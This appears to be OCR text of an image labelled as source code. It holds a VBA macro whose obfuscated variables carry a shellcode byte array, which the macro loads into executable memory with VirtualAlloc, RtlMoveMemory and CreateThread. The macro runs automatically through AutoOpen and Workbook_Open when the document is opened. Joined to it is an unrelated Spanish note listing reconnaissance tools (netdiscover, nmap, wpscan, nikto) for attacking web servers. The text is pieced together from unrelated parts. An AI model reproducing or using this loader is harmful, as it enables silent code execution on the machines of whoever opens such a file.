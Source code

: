 Dim Fvyarf As Long, Ohjnpgj As Variant, Oyvx As Long

#If Vba7 Then

Dim Yigezqed As LongPtr, Nlgbsy As LongPtr

#Else

Dim Yigezqed As Long, Nlgbsy As Long

#EndIf

Ohjnpgj = Array(211,186,66,10,140,106,217,116,36,244,91,51,201,177,147,49,83,23,3,83,23,131,129,14,110,159,220,207,183,20,250,59,24,109,10,169,149,95,35,248,107,211,176,21,119,221,241,253,139,89,225,114,76,109,196,120,252,49,127,189,106,37,106,118,187,156,8,243,41,25,192,230,237,58,57,247,199,79,125,22, \_

175,163,40,93,209,255,76,187,124,16,163,88,212,29,26,167,0,209,105,4,84,241,39,100,153,51,57,95,144,26,146,135,135,249,192,178,196,18,36,24,77,242,73,252,98,164,47,235,166,226,20,192,253,49,151,108,162,99,26,170,80,77,117,246,220,228,173,185,208,15,99,177,186,71,67,78,136,83,9,210, \_

143,111,155,202,203,178,7,20,79,91,107,231,225,76,229,238,135,201,102,174,37,5,222,124,62,171,70,211,112,84,26,135,184,215,49,162,226,31,113,227,151,50,228,78,152,188,89,119,135,121)

Yigezqed = VirtualAlloc(0, UBound(Ohjnpgj), &amp;H1000, &amp;H40)

For Oyvx = LBound(Ohjnpgj) To UBound(Ohjnpgj)

Fvyarf = Ohjnpgj(Oyvx)

Nlgbsy = RtlMoveMemory(Yigezqed + Oyvx, Fvyarf, 1)

Next Oyvx

Nlgbsy = CreateThread(0, 0, Yigezqed, 0, 0, 0)

End Sub

Sub AutoOpen()

Auto\_Open

End Sub

Sub Workbook\_Open()

Auto\_Open

End Sub



# Metodología para hackear servidores web

jueves, 7 de mayo de 2020

14:42

Netdiscover

Nmap -A \&lt;victima\&gt;

Wpscan y/o nikto
